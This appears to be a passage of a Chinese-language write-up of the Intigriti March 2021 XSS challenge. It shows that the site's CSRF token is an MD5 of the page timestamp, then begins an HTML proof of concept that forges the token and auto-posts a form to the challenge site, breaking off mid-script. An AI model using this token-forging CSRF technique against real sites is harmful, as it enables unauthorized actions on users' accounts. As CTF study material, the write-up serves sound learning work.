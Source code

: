 ```
&lt;input type="hidden" name="csrf" value="f20927170100763667bf20d684f36515"/&gt;
...

...
&lt;!-- page generated at 2021-04-21 13:43:41 --&gt;
```

经过测试将日期转为时间戳并通过MD5加密，得到了相同的结果，由此，便可以绕过csrf的限制：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t014d29a5276d359500.png)

现在，我们需要能够进行MD5加密的JS，可以从以下地址获得：

```
# CryptoJS.MD5()

https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/core.js
https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/md5.js
```

为了保证我们生成的csrf令牌与网页自动生成的一直，需要查看攻击服务器的时间戳与题目网页时间戳之间的误差：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t015b86f3d4f8557d47.png)

可以看到两个时间戳之间存在8小时时差，通过调整，可以使攻击服务器生成了csrf令牌与网页生成的令牌一致：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t016197c06a6b29b03a.png)

### <a class="reference-link" name="POC"></a>POC

综合上面的思路，可以构造以下poc：

```
&lt;html&gt;
&lt;head&gt;
    &lt;title&gt;xss&lt;/title&gt;
&lt;/head&gt;
&lt;body&gt;
    &lt;iframe src="https://challenge-0321.intigriti.io/" width="1000" height="1000"&gt;&lt;/iframe&gt;
    &lt;script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/core.js"&gt;&lt;/script&gt;
    &lt;script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/md5.js"&gt;&lt;/script&gt;
    &lt;form method="POST" action="https://challenge-0321.intigriti.io/" id="send"&gt;
        &lt;input type="hidden" name="csrf" id="csrf" value=""&gt;
        &lt;input type="hidden" id="payload" name="notes" value=""&gt;
    &lt;/form&gt;
    &lt;script&gt;
        var ts0 = Date.parse(new Date());
        var ts1 = String(ts0).substring(0,10);
        var passhash = CryptoJS.MD5(ts1).toString();
        function add0(m)`{`return m&lt;10?'0'+m:m `}`
        function format(date)`{`
          var time = new Date(date);
          var y = time.getFullYear();
          var m = time.getMonth()+1;
          var d = time.getDate();
          var h = time.getHours()-8;
          var mm = time.getMinutes();
          var s = time.getSeconds();
          dd = y+'-'+add0(m)+'-'+add0(d)+' '+add0(h)+':'+add0(mm)+':'+add0(s);
```